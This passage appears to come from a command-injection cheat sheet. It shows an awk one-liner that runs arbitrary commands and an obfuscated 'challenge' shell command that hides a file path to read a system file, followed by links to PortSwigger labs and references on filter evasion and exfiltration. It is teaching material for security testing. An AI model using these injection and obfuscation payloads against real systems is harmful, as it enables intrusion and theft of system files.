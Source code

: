 ### Using `awk` command

```shell
awk -v iface="id" ' BEGIN{system(iface);}'
```

## Labs

* [OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)
* [Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)
* [Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)
* [Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)
* [Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)


## Challenge

Challenge based on the previous tricks, what does the following command do:

```powershell
g="/e"\h"hh"/hm"t"c/\i"sh"hh/hmsu\e;tac$@<${g//hh??hm/}
```


## References

* [SECURITY CAFÉ - Exploiting Timed Based RCE](https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/)
* [Bug Bounty Survey - Windows RCE spaceless](https://web.archive.org/web/20180808181450/https://twitter.com/bugbsurveys/status/860102244171227136)
* [No PHP, no spaces, no $, no { }, bash only - @asdizzle](https://twitter.com/asdizzle_/status/895244943526170628)
* [#bash #obfuscation by string manipulation - Malwrologist, @DissectMalware](https://twitter.com/DissectMalware/status/1025604382644232192)
* [What is OS command injection - portswigger](https://portswigger.net/web-security/os-command-injection)
* [Argument Injection Vectors - Sonar](https://sonarsource.github.io/argument-injection-vectors/)
